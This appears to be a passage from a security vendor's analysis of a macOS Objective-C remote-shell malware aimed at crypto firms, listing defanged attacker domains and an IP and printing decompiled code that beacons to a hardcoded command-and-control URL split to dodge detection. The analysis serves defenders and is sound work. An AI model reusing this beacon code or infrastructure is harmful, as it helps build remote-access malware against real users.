 
The IP address 104.168.214[.]151 has been associated with malware previously used by this attacker.






                        
                            https://www.virustotal.com/gui/ip-address/104.168.214.151/relations

docs.panteracapital[.]ventures
cnbc.crypto-ecosystem[.]world
bico.tokentracking[.]info
recent.bico-news[.]blog
crypto.blockchainworld[.]info
asset.crypto-ecosystem[.]world
defi.smart-contracts[.]blog
gumi-cryptos[.]loan
internal-server.nextera[.]capital
blockfi[.]loans
cryptyk[.]info
google.coinbase.expublic.linkpc[.]net
exceptions.coinbase.expublic.linkpc[.]net
daiwa.azure-defender[.]cloud
internal.daiwa[.]ventures
coinbase.expublic.linkpc[.]net
...
                        
                    





We have observed submissions to VirusTotal from countries such as Japan and the US in September and October.





Analysis The malware is written in Objective-C and operates as a very simple remote shell that executes shell commands sent from the attacker server. Although it is not entirely clear how initial access was achieved, this malware is likely being used as a later stage to manually run commands after compromising a system. This malware at a glance is very different from the previously mentioned RustBucket malware seen used in other attacks, but the attacker’s focus in both cases seems to be providing simple remote shell capability. Upon execution, the malware calls a function titled sendRequest to send a POST message to the hardcoded URL hXXp://swissborg.blog/zxcv/bnm. The malware then uses the Objective-C NSProcessInfo functionality which allows them to gain information about the malware process itself. It then retrieves the operatingSystemVersionString to determine the macOS version. An NSMutableURLRequest object is created using the hardcoded URL and the HTTP method and header fields are set accordingly.






                        
                            /* @class ProcessRequest */
-(void)sendRequest {
    rax = [NSProcessInfo processInfo];
    rax = [rax retain];
    var_58 = rax;
    rax = [rax operatingSystemVersionString];
    rax = [rax retain];
    r15 = rax;
    var_40 = rax;
    rax = [@"http://swissborg.b" stringByAppendingString:@"log/zxcv/bnm"];
    rax = [rax retain];
    var_50 = rax;
    rax = [NSURL URLWithString:rax];
    rax = [rax retain];
    var_48 = rax;
    rax = [NSMutableURLRequest requestWithURL:rax];